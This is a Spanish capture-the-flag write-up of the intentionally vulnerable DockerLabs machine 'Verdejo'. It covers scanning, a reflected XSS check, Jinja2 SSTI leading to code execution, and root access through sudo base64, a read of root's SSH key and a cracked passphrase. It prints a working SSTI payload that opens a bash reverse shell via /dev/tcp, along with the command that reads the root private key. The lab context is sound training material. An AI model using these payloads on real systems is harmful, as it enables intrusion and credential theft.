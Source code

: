 ```yaml
---
title: 'Verdejo - DockerLabs'
description: "Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema."
pubDate: 'Oct 25 2024'
categories: ['WriteUp', 'DockerLabs']
--- 
```


## Introduction 

En este WriteUp, abordaremos la máquina Verdejo de la plataforma **[DockerLabs](https://dockerlabs.es/)**, máquina creada por **[TheHackersLabs](https://thehackerslabs.com/)**. Nos encontraremos con una página web vulnerable a SSTI (Server Side Template Injection) y mediante (root) NOPASSWD: /usr/bin/base64 podremos leer la clave de ssh id_rsa del usuario root. Haremos uso de ssh2john para extraer el hash y con John The Ripper podremos crackear y obtener la clave que nos permitirá acceder como root al sistema.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-dockerlabs.png)

```json
Platform: DockerLabs
Level: Easy
OS: Linux
```

## Reconnaissance

~~~
Target: 172.17.0.2
~~~

Inicialmente, usamos el comando **Ping**. Este utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. **Ping** envía un mensaje de “echo request” a una **dirección IP** y espera recibir un mensaje de “echo response” en respuesta. Este proceso nos permite verificar si una máquina en la red es accesible y medir la latencia. Podemos inferir que es una máquina **Linux** debido a que el **ttl = 64**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-1.png)

## Scanning 

Como vemos, el paquete fue recibido por la máquina victima. Una vez verificada la conexión, empezamos a realizar un escaneo de multiples etapas con la herramienta **Nmap**. Primero, haremos un escaneo de puertos abiertos.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-2.png)

Vemos que tenemos los puertos **22/SSH**, **80/HTTP** y **8089/unknown**. Procedemos a hacer un escaneo más detallado de los mismos con el fin de obtener más información. Esto lo haremos con la flag `-sCV`

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-3.png)

## Enumeration

**22/SSH**
El puerto 22 ejecuta el servicio SSH versión **OpenSSH 9.2p1**. De momento no tenemos ninguna vulnerabilidad que aprovechar para esta versión.

**80/HTTP**
El puerto 80 ejecuta un servidor web **Apache/2.4.59**. Por lo visto es la página default de Apache.

**8089/Unknown**
Por lo visto el puerto 8089 ejecuta lo que es la página web por lo cual podemos inferir que para acceder a ella necesitamos indicar el puerto. Vemos que útiliza **Werkzeug/2.2.2** y **Python/3.11.2** 

Al acceder al sitio efectivamente nos lleva a la página web default de Apache.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-4.png)

Al hacer **Web fuzzing** utilizando **Gobuster** en busca de archivos y directorios ocultos no encontramos nada interesante.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-5.png)

Haremos uso de **whatweb** para obtener más información acerca del sitio web está vez indicando el puerto **:8089** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-6.png)

Como vemos nos índica que es accesible y al ingresar notamos un formulario.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-7.png)

Al enviar la palabra "Hola" notamos que la representa en el **DOM (Document Object Model)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-8.png)

Intentamos ver si es vulnerable a **XSS (Cross-Site Scripting)** vulnerabilidad que permite a un atacante inyectar scripts maliciosos en páginas web. Ingresamos código JavaScript para ver como reacciona la página. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-9.png)

Como vemos el servidor refleja la respuesta por lo que estamos ante **XSS Reflected (Reflejado)** 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-10.png)

Como no podemos obtener de manera directa **RCE (Remote Code Execution)** intentaremos **SSTI (Server-Side Template Injection)**, una vulnerabilidad que permite inyectar código en plantillas del lado del servidor. En primer lugar comprobaremos si es vulnerable indicando `{{7x7}}` y en caso de que responda de manera correcta el resultado de la multiplicación estariamos la vulnerabilidad **SSTI**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-11.png)

Como vemos, respondió **49** por lo efectivamente estamos ante **SSTI (Server-Side Template Injection)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-12.png)

## Exploitation

Al leer acerca de está vunerabilidad en **[Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)** me centro más que nada en la sección de **Payloads de Python** debido a que, recordemos, el servidor web ejecutaba **Python/3.11.2**: Me encuentro está sección interesante que menciona **RCE (Remote Command Execution)**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-13.png)

Escribo el **Payload** de **Jinja2 (Un motor de plantillas con todas las funciones para Python)** en el formulario para ver si es efectivo 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-14.png)

Resulta que si, es vulnerable al payload de **Jinja2 (Python)** por lo que podemos inferir que ejecuta este motor de plantillas. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-15.png)

Como podemos ejecutar comandos arbitrarios, podriamos hacer uso de una **reverse shell** y obtener **RCE**. El payload que usaremos es: 

~~~jinja2
{{ cycler.__init__.__globals__.os.popen("/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.0.10/1717 0>&1'").read() }} 
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-16.png)

Luego de pondremos en escucha mediante **Netcat** en el puerto **1717** y al enviar el payload obtenemos acceso. Como vemos somos el usuario: **verde**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-17.png)

Realizamos el **tratamiento de la tty** para no tener ningún problema o inconveniente innecesario a la hora de usar la términal luego de la reverse shell.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-18.png)

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-19.png)

## Privilege Escalation

Ejecutamos el comando `sudo -l` para listar los permisos **sudo** del usuario actual y como vemos nos indica que el usuario verde puede ejecutar el siguiente comando como super usuario sin la necesidad de contraseña: **(root) NOPASSWD: /usr/bin/base64

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-20.png)

Según **[GTFObins](https://gtfobins.github.io)** el binario nos permite acceder a archivos del sistema como super usuario. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-21.png)

- **`sudo base64 <FILE TO READ>`**: Este comando toma un archivo (reemplaza `<FILE TO READ>` con la ruta del archivo) y lo codifica en formato base64. Usar `sudo` permite ejecutar el comando con privilegios de superusuario, lo que puede ser necesario si el archivo requiere permisos especiales para ser leído.
    
- **`| base64 --decode`**: El operador `|` (pipe) toma la salida del primer comando (la representación base64 del archivo) y la pasa como entrada al segundo comando. `base64 --decode` decodifica esa representación base64 de vuelta a su forma original.

Intentaremos acceder a la **id_rsa** de **root** aprovechando el comando:

~~~
sudo /usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
~~~

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-22.png)

Como vemos tenemos la **clave privada** con lo cual podriamos acceder. Crearemos un archivo llamado **id_rsa** con el contenido de la **clave privada** en nuestra máquina local y le daremos permisos con `chmod 600 id_rsa` 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-23.png)

Al intentar ingresar al **SSH** del usuario **root** nos pide la key de la **id_rsa** por lo que necesitamos extraer el **hash** de la misma.

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-24.png)

Extraemos el **hash** de la **id_rsa** con la herramienta **ssh2john**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-25.png)

Con **JohnTheRipper** crackeamos el hash para obtener la key de la **id_rsa** y vemos que es: **honda1**

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-26.png)

Ahora al intentarlo nuevamente y escribir la **key** de la **id_rsa** vemos que ingresamos correctamente. 

![Verdejo Yw4rf](../../../assets/DockerLabs/Verdejo/verdejo-27.png)

Con **whoami && id** vemos que somos **root** por lo que tenemos control total del sitema y por lo tanto hemos finalizado la máquina.

<br>